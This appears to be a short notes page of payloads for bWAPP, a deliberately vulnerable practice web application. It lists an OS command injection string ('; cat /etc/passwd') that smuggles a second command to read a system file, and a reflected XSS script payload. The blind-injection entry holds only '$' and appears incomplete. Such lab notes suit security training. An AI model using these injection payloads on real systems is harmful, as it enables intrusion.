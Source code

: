 # bWAPP - Exploits

### (1) OS Command Injection (low)
```bash
; cat /etc/passwd
```

### (2) OS Command Injection-Blind (low)
```bash
$
```

### (3) Cross-Site Scripting - Reflected (GET) (low)
```JS
<script>alert("XSS")</script>
// ?firstname=Hacker&lastname=<script>alert%28"XSS"%29<%2Fscript>&form=submit
```
